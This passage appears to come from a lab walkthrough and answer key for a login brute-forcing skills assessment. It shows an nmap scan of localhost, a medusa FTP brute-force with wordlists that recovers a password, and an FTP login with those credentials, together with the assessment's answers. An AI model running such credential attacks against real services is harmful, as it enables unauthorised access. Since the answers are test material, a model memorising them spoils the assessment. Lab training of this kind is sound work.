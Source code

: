 Students will utilise `nmap` to scan the host locally and uncover the FTP service running on port `21`:

Code: shell

```shell
nmap localhost
```

```
satwossh@ng-8414-loginbfsatwo-pj3oi-5585b5994f-wh46v:~$ nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-30 11:37 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```

Subsequently, students will use `medusa` to perform an FTP brute-force using the previously generated username list and the password list located in the `/home/satwossh` directory to obtain valid credentials:

Code: shell

```shell
medusa -h 127.0.0.1 -U thomas_smith.txt -P passwords.txt -M ftp -t 5 | grep "ACCOUNT FOUND"
```

```
satwossh@ng-8414-loginbfsatwo-pj3oi-5585b5994f-wh46v:~$ medusa -h 127.0.0.1 -U thomas_smith.txt -P passwords.txt -M ftp -t 5 | grep "ACCOUNT FOUND"

ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: {hidden} Password: chocolate! [SUCCESS]
```

Answer: `thomas`

# Skills Assessment Part 2

## Question 2

### "What is the flag contained within flag.txt"

Students will reuse the previously established SSH session and will connect to the FTP service using the found credentials

Code: shell

```shell
ftp ftp://thomas:chocolate\!@localhost
```
